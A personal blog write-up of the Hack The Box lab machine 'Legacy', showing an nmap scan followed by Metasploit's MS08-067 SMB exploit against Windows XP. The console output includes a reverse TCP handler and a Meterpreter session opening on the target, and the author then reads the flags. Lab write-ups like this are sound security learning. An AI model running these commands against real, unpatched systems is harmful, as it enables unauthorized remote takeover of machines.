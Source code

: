 # Title: Legacy
  Date: 2019-10-11

This is the second box in this run through of HTB machines. It was easy, and much easier than the first one I did, *Lame*.

## Enumeration

I started of with an nmap scan with version detection. The machine is XP - this should be simple!

```
$ nmap -Pn -sV legacy
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-11 11:15 CDT
Nmap scan report for legacy (10.10.10.4)
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

I didn't really even do any research for this one, I just searched for "smb" in Metasploit. 

```
search smb
```

And looked for old and highly rated exploits. I got lucky and the first thing I tried worked. /shrug 
This is the one I used:

```   
99   exploit/windows/smb/ms08_067_netapi                             2008-10-28       great      Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

I selected the exploit, set the RHOST and ran it:

```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts legacy
rhosts => legacy
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 10.10.10.4:1028) at 2019-10-11 11:16:37 -0500

meterpreter > 
meterpreter > pwd
C:\WINDOWS\system32
```

Cool. I got a shell!

## User flag

The user flag was in C:\Documents and Settings\john\Desktop\user.txt

## Root flag

Nothing else needed to happen for root, the flag was readable here: C:\Documents and Settings\Administrator\Desktop\root.txt

## Endnotes

This one was super easy. Nothing really of note here other than it made me laugh that I guessed a working exploit. Way to make me feel good about myself, HTB!

